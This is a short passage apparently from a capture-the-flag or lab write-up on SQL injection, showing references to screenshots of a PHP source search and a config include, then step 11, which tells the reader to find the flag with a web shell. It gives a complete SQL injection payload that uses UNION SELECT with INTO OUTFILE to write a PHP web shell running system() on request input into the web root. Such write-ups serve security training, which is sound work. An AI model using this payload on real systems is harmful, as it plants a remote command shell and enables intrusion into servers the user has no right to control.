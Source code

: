 <figure><img src="../../.gitbook/assets/source-code-search-php.png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/include-config-php.png" alt=""><figcaption></figcaption></figure>

11. Find the flag by using a webshell.

Inject this payload into the form.

```sql
cn' union select "",'<?php system($_REQUEST[0]); ?>', "", "" into outfile '/var/www/html/webshell.php'-- -
```
